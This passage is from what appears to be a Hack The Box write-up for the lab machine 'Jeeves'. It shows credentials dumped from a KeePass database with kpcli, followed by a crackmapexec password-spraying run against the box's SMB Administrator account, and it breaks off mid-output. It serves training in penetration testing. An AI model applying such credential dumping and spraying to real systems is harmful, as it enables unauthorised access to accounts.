 ```sh
 Pass: pwndyouall!
  URL: https://www.eccouncil.org/programs/certified-ethical-hacker-ceh
Notes: Personal login

kpcli:/> show -f 4

 Path: /CEH/
Title: It's a secret
Uname: admin
 Pass: F7WhTrSFDKB6sxHU1cUn
  URL: http://localhost:8180/secret.jsp
Notes:

kpcli:/> show -f 5

 Path: /CEH/
Title: Jenkins admin
Uname: admin
 Pass:
  URL: http://localhost:8080
Notes: We don't even need creds! Unhackable!

kpcli:/> show -f 6

 Path: /CEH/
Title: Keys to the kingdom
Uname: bob
 Pass: lCEUnYPjNfIuPZSzOySA
  URL:
Notes:

kpcli:/> show -f 7

 Path: /CEH/
Title: Walmart.com
Uname: anonymous
 Pass: Password
  URL: http://www.walmart.com
Notes: Getting my shopping on
```
Back on the box we saw only two users, we already have access to `kohsuke` now we need to access `Administrator`.

Password spraying failed. None of the passwords worked

```sh
┌─[george@parrot]─[~/HTB/jeeves]
└──╼ $ crackmapexec smb 10.10.10.63 -u Administrator -p pass.txt
SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
SMB         10.10.10.63     445    JEEVES           [-] Jeeves\Administrator:Password STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] Jeeves\Administrator:lCEUnYPjNfIuPZSzOySA STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] Jeeves\Administrator:F7WhTrSFDKB6sxHU1cUn STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] Jeeves\Administrator:pwndyouall! STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] Jeeves\Administrator:S1TjAtJHKsugh9oC4VZl STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] Jeeves\Administrator:12345 STATUS_LOGON_
```
